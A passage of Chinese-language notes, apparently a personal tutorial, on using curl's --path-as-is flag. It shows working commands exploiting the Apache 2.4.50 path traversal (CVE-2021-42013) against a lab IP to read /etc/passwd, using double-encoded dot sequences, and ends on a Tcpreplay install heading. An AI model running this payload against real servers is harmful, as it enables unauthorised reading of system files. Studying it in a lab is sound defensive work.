 比如 **Apache HTTP Server 2.4.50 路径穿越漏洞(CVE-2021-42013) ** 

如果直接发明文的 .. 且不用 `--path-as-is` 的话就会把 `../` 全丢掉

```
curl -v http://192.168.2.31:8080/icons/../../../../../../../etc/passwd
```

> ![image-20230102004413573](http://cdn.ayusummer233.top/img/202301020044787.png)

正确的利用方式: 

```bash
curl -v --path-as-is http://192.168.2.31:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![image-20230101220853878](http://cdn.ayusummer233.top/img/202301012208415.png)

使用了 `-v`参数输出通信的整个过程，用于调试。又使用了 `--path-as-is` 从而不压缩 `..` 序列

![image-20230102003813664](http://cdn.ayusummer233.top/img/202301020044161.png)

> 如果不使用 `--path-as-is` 则
>
> ![image-20230102004636433](http://cdn.ayusummer233.top/img/202301020047898.png)
>
> ![image-20230102004028870](http://cdn.ayusummer233.top/img/202301020044128.png)
>
> 与之前一样, 可以利用成功, 流量也一致, 说明 `--path-as-is` 只对明文的 `..` 生效, 编了码的话就没必要再加该参数了


---

## Tcpreplay

```bash
# 安装
apt install tcpreplay
```

